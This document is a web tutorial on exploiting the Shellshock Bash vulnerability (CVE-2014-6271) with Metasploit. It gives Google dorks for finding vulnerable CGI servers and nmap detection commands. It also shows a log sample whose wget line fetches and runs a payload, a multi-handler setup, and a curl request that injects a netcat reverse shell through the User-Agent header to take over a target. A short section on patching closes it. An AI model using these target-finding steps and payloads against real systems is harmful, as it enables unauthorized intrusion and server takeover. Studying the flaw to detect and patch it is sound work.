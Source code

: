 ## Exploit Shellshock Vulnerability CVE 2014-6271 using Metasploit

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/00bbf7194c2d86d6fe89edf34e38d7be-1920x1080.jpg "Thumbnail")

A recent study from July 2019 shows that the security vulnerability called **ShellShock** CVE-2014-6271 discovered in 2014 would still be present on a large number of servers in the world although patch have been created since several years. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue.

**Shellshock**, also known as **Bashdoor**, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the **ForceCommand** feature in **OpenSSH** sshd, the **mod_cgi** and **mod_cgid** modules in the **Apache HTTP Server**, scripts executed by unspecified **DHCP clients**, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka “ShellShock”.

**Source:** [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

* * *

###### ANATOMY OF THE ATTACK

**Test your environment**

Just run this bash script in your system and you will see if you are vulnerable or not:

```none
env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
```

**Can I detect if someone has exploited this against me?**

We would recommend reviewing your HTTP logs and check if there is anything suspicious. An example of a malicious pattern:

```none
192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] "GET / HTTP/1.0"  400 349 "() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;"
```

There are also some patches for bash that log every command that is being passed to the bash interpreter. This is a good way to see if someone has exploited your machine. It won’t prevent someone from exploiting this vulnerability, but it will log the attackers actions on the system.

**How serious is the threat?**

This bug is very dangerous indeed, but not **EVERY** system is vulnerable. Special conditions must be met for a web server to be exploited. One of the biggest problems now is that when patches are published, researchers will look for other ways to exploit bash, explore different conditions that enable it to be exploited, etc. So a patch that helps prevent remote code execution can’t do anything against, for example, a file overwrite. So there will probably be a series of patches and in the meantime systems are still vulnerable.

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. In order to cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it's easy for a blackhat to build a list of potential vulnerable websites.

```none
sitemap.xml filetype:xml intext:"cgi-bin"
filetype:sh inurl:cgi-bin
filetype:sh
intext:cgi-bin
intitle:apache "cgi-bin"
inurl:cgi-bin
inurl:wspd_cgi.sh
inurl:wslb.sh
inurl:"server-status" intitle:apache "cgi-bin"
inurl:cgi-bin "GATEWAY_INTERFACE = CGI"
inurl:cgi-bin inurl:printenv intext:SERVER_ADDR
```

* * *

###### VULNERABILITY ANALYSIS

In order to detect the vulnerability, we can use **nmap**. To detect this vulnerability the script **http-shellshock** executes a command that prints a random string and then attempts to find it inside the response body. Web apps that don't print back information won't be detected with this method.

```bash
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Output**

```none
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

Once the vulnerability is discovered by the hacker, it can exploit it using Metasploit.

* * *

###### CREATE MSF SESSION

Once a potential flaw has been discovered in an environment, it can easily be exploited as demonstrated below. In order to open a session from our targeted website we will need to create an exploit multi-handler on our **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 0.0.0.0
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/00bbf7194c2d86d6fe89edf34e38d7be-1.png "Image-1")

On the above example we are using a Linux X86 Shell Reverse TCP payload, off course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit in order to create a reverse shell using a bash terminal and forward the traffic through the MSF handler using TCP protocol.

**Bash Command**

```bash
# Replace "YOUR-IP" with your tunnel IP or host adddress
# Replace "YOUR-PORT" with the port you configured
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc YOUR-IP YOUR-PORT -e /bin/sh"' http://localhost:8080/cgi-bin/vulnerable
```

You are done !! If your targeted website is vulnerable to CVE-2014-7169 exploit, a session will be created in your **Metasploit** allowing you to take over the targeted server.

* * *

###### HOW TO PROTECT YOURSELF FROM SHELLSHOCK VULNERABILITIES

The answer is simple: patch your system. If your system is not yet patched, you have no one to blame but yourself. This vulnerability has been out for years, and pretty much all systems have patches available. To cut short, the best way to protect yourself against this type of vulnerability is to keep your system up to date applying all the fixes released for this exploit.
